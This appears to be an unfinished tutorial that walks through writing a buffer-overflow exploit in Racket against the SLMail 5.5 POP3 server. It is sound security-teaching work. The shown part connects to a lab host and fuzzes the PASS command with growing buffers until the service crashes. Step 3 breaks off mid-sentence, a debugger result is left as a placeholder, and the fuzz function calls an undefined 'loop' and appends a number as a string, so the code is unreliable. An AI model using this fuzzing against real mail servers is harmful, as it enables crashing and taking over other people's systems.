 This is an exercise in writing an exploit in Racket to demonstrate its flexibility.
We will approach writing an exploit from scratch using Racket from port scanning to shell.


We will target SLMail 5.5, a version of SLMail (from ~2003) that is vulnerable to a buffer-overflow attack.
There is plenty of public exploits available for SLMail 5.5; here are two links to code archived
in the exploit-database, both of which have been written in C. The exploit database is a reputable source of 
public exploit code for security researchers.

https://www.exploit-db.com/exploits/646/

https://www.exploit-db.com/exploits/638/

Each of these also contain a link to the SLMail 5.5 binary so you can learn install the vulnerable service
to learn the mechanics of the attack by hand.

We will require a couple tools outside of our Racket tool belt, these include
*       Metasploit Framework ; 
        A security auditing framework written in ruby on rails that will 
        generate supplementary code to help both fuzz and return a shell.
        Metasploit can be installed on Windows or popular Linux distros,
        we will use Kali Linux which has Metasploit as well as all of its dependencies.
        
        Windows XP virtual machine;
        We need a machine with a debugger installed. 
        I will use Immunity Debugger which allowes us to create custom python plugins. 
        We will also use an imported plugin for Immunity caled Mona.py
        Windows XP is a security nightmare, but the lack of ASLR will make writing this exploit easier.
        

![high resolution](/High_Res.png?raw=true "high res architecture")


Consider we have used a portscanner (such as RCat) and discovered a mail server sitting on a target machine.
Using some version matching we find out this server is a SLMail server.


The exploit is trigged by passing a buffer of characters too large for the program to handlewhen it is expecting 
a password for the user -- ie the input for the password variable is never checked to be a valid size for the 
container holding it. When this container overflows it will spill over into adjacent memory, and due to the way
the memory has been written onto the stack we will overwrite the EIP register.
This is the whole attack in a nut shell, by being able to direct where we take our next instruction from
we might have a chance to redirect the execution flow to our own code.

Here are the steps we will take to exploit SLMail:
1. Fuzz the service
..* We need to determine exactly how many character's breaks SLMail, this is one of the most important 
        factors in determining an exploits viability but this only leads us to the next question
2. Where -exactly- in our string, do we overwrite the EIP?
..* Once we determine where in our string the EIP is, we can use this to redirect the execution of SLMails code.
this means if we injects code into the surrounding buffer we might be able to carefully write string that overwrites
EIP to direct the next instruction to fall in our buffer of attack code.
3. Are there bad characters we need to avoid?
..* Before 
       

### Using the REPL to fuzz SLMail
First we want to get a handle on the way to communicate with the SLMail server using racket.
We are going to form a closure over the two procedures returned by the tcp-connect procedure.
From Racket documentation

"Two values are returned by tcp-connect: an input port and an output port. Data can be received from the server through the input port and sent to the server through the output port. "https://docs.racket-lang.org/reference/tcp.html
```racket
> (define-values (in out) (tcp-connect "192.168.1.13" 110))
```

We can use the two ports to read and write *lines* of information.
It is important to note the importance of *lines*, otherwise Racket uses spaces as delimiters for reading.
It is also important to note that the buffer we intend to send to our outbound port does not get pushed across
until we flush the buffer with flush-output.
https://docs.racket-lang.org/reference/port-buffers.html
```racket
> (read-line in)
"+OK POP3 server ie8winxp ready <00003.22238468@ie8winxp>\r"
> (displayln "USER test" out)
> (flush-output out)
> (read-line in)
"+OK test welcome here\r"
> (displayln "PASS not_the_password" out)
> (flush-output out)
> (read-line in)
"-ERR unable to lock mailbox\r"
```

With the information from public exploits we know that if we keep shoving buffers of increasing
size to the SLMail program that we will eventually cause it to overflow.
We attach our SLMail instance to the debugger and write a recursive procedure in the REPL to 
fuzz the PASS with buffers of increasing size. With every recursion we want to be able to see the 
size of the buffer as well as the returned output.
```racket
> (define (fuzz n)
        (if (displayln (read-line in))
            (begin
              (displayln "USER test" out)
              (flush-output out)
              (displayln n)
              (displayln (string-append "PASS " (make-string n #\A)) out)
              (flush-output out)
              (displayln (read-line in))
              (sleep 1)
              (loop (+ n 100))) (displayln (string-append "Broke at " n))))
> (fuzz 100)
+OK POP3 server ie8winxp ready <00004.9451406@ie8winxp>

100
+OK test welcome here

-ERR unable to lock mailbox

200
+OK test welcome here

-ERR unable to lock mailbox

```
...
```racket

2400
+OK test welcome here

-ERR unknown command

2500
+OK test welcome here

-ERR unknown command

2600
+OK test welcome here

```

The last successful buffer was 2600 A's appended together before we hang.
Looking at the debugger we see this:
< first debugger result >

We reset the broken SLMail and the debugger, and try again to ensure we have sucess
```racket
> (displayln "User test" out)
> (flush-output out)
> (read-line in)
"+OK test welcome here\r"
> (displayln (string-append "PASS " (make-string 2900 #\A)) out)
> (flush-output out)
```
